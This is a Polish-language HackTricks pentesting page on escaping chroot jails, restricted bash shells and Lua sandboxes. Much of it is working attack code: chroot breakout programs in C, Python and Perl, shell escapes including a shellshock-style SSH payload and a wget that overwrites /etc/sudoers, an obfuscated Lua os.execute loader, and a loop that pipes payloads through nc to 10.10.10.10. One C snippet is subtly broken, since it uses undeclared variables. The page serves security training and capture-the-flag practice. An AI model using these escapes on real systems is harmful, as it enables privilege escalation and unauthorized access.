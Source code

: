 # Ucieczka z więzień

{% hint style="success" %}
Dowiedz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Dowiedz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **GTFOBins**

**Szukaj w** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **czy możesz wykonać jakikolwiek binarny plik z właściwością "Shell"**

## Ucieczki z Chroot

Z [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mechanizm chroot **nie jest przeznaczony do obrony** przed celowym manipulowaniem przez **uprzywilejowanych** (**root**) **użytkowników**. Na większości systemów konteksty chroot nie są odpowiednio stosowane i chrootowane programy **z wystarczającymi uprawnieniami mogą wykonać drugi chroot, aby się wydostać**.\
Zazwyczaj oznacza to, że aby uciec, musisz być rootem wewnątrz chroot.

{% hint style="success" %}
**Narzędzie** [**chw00t**](https://github.com/earthquake/chw00t) zostało stworzone do nadużywania poniższych scenariuszy i ucieczki z `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Jeśli jesteś **rootem** wewnątrz chroot, możesz **uciec**, tworząc **inny chroot**. Dzieje się tak, ponieważ 2 chrooty nie mogą istnieć obok siebie (w Linuksie), więc jeśli utworzysz folder, a następnie **utworzysz nowy chroot** w tym nowym folderze będąc **na zewnątrz niego**, będziesz teraz **na zewnątrz nowego chroot** i dlatego będziesz w systemie plików.

Dzieje się tak, ponieważ zazwyczaj chroot NIE przenosi twojego bieżącego katalogu do wskazanego, więc możesz utworzyć chroot, ale być poza nim.
{% endhint %}

Zazwyczaj nie znajdziesz binarnego pliku `chroot` wewnątrz więzienia chroot, ale **możesz skompilować, przesłać i wykonać** binarny plik:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Zapisany fd

{% hint style="warning" %}
To jest podobne do poprzedniego przypadku, ale w tym przypadku **atakujący przechowuje deskryptor pliku do bieżącego katalogu**, a następnie **tworzy chroot w nowym folderze**. W końcu, ponieważ ma **dostęp** do tego **FD** **na zewnątrz** chroot, uzyskuje do niego dostęp i **ucieka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD można przekazywać przez Unix Domain Sockets, więc:

* Utwórz proces potomny (fork)
* Utwórz UDS, aby rodzic i dziecko mogli się komunikować
* Uruchom chroot w procesie potomnym w innym folderze
* W procesie nadrzędnym utwórz FD folderu spoza nowego chroot procesu potomnego
* Przekaż do procesu potomnego ten FD, używając UDS
* Proces potomny zmienia bieżący katalog na ten FD, i ponieważ jest poza swoim chroot, ucieknie z więzienia
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Zamontuj urządzenie root (/) do katalogu wewnątrz chroot
* Uruchom chroot w tym katalogu

To jest możliwe w systemie Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Zamontuj procfs do katalogu wewnątrz chroot (jeśli jeszcze tego nie zrobiono)
* Znajdź pid, który ma inny wpis root/cwd, np.: /proc/1/root
* Uruchom chroot w tym wpisie
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Utwórz Fork (proces potomny) i uruchom chroot w innym folderze głębiej w systemie plików oraz zmień na niego katalog bieżący
* Z procesu nadrzędnego przenieś folder, w którym znajduje się proces potomny, do folderu poprzedniego dla chroot procesu potomnego
* Proces potomny znajdzie się poza chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Kiedyś użytkownicy mogli debugować swoje własne procesy z procesu tego samego procesu... ale to już domyślnie nie jest możliwe
* W każdym razie, jeśli to jest możliwe, można ptrace do procesu i wykonać shellcode wewnątrz niego ([zobacz ten przykład](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeracja

Uzyskaj informacje o więzieniu:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Zmodyfikuj PATH

Sprawdź, czy możesz zmodyfikować zmienną środowiskową PATH.
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Korzystanie z vim
```bash
:set shell=/bin/sh
:shell
```
### Utwórz skrypt

Sprawdź, czy możesz utworzyć plik wykonywalny z zawartością _/bin/bash_
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Uzyskaj bash z SSH

Jeśli uzyskujesz dostęp za pomocą ssh, możesz skorzystać z tego sztucznego triku, aby uruchomić powłokę bash:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Deklaracja
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Możesz nadpisać na przykład plik sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Inne sztuczki

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Może być również interesująca strona:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Więzienia Pythona

Sztuczki dotyczące ucieczki z więzień Pythona na następującej stronie:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Więzienia Lua

Na tej stronie znajdziesz globalne funkcje, do których masz dostęp wewnątrz Lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval z wykonaniem polecenia:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Kilka sztuczek, aby **wywołać funkcje biblioteki bez użycia kropek**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Wylicz funkcje biblioteki:
```bash
for k,v in pairs(string) do print(k,v) end
```
Zauważ, że za każdym razem, gdy wykonasz poprzedni polecenie w **innym środowisku Lua, kolejność funkcji się zmienia**. Dlatego jeśli musisz wykonać określoną funkcję, możesz przeprowadzić atak siłowy, wczytując różne środowiska Lua i wywołując pierwszą funkcję biblioteki le:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Uzyskaj interaktywną powłokę lua**: Jeśli znajdujesz się w ograniczonej powłoce lua, możesz uzyskać nową powłokę lua (a być może nieograniczoną) wykonując:
```bash
debug.debug()
```
## Odnośniki

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdy: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Naucz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Szkolenie AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Szkolenie GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
